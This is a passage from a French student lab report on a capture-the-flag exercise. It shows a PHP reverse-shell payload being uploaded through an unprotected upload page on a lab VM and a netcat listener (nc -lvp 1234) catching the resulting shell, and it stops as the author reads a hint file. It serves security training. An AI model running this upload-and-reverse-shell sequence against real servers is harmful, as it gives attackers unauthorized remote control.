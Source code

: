 On va faire une copie d'un payload préinstallé sur la machine sur mon Bureau.

`cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop/script.php`

![1733421524761](image/rapport-tp5/1733421524761.png)

Maintenant, à l'url `10.0.2.8/igmseklhgmrjmtherij2145236/upload.php `, je peux upload le payload PHP "script.php".

Je peux maintenant ouvrir une connexion netcat qui va écouter sur le port 1234 de la machine hote. L'option -l permet d'écouter sur le port 1234 (listen), l'option -v ajoute de la verbosité et l'option -p permet de spécifier le port.

`nc -lvp 1234`

Notre connexion netcat est ouverte, le fichier a bien été upload, mais où a t-il été upload ? On se rappelle qu'il exite un dossier /upload.

J'essaye donc d'accéder au fichier "script.php" qui pourrait être contenu dans le dossier upload : `10.0.2.8/igmseklhgmrjmtherij2145236/upload/script.php`
Dans mon terminal, on observe que netcat reçoit la connexion et je peux accéder au shell.

![1733422444249](image/rapport-tp5/1733422444249.png)

En faisant un `ls -l` je trouve un fichier `hint.txt` (indice)

![1733427564541](image/rapport-tp5/1733427564541.png)

Je fais donc un `cat hint.txt` pour le lire :
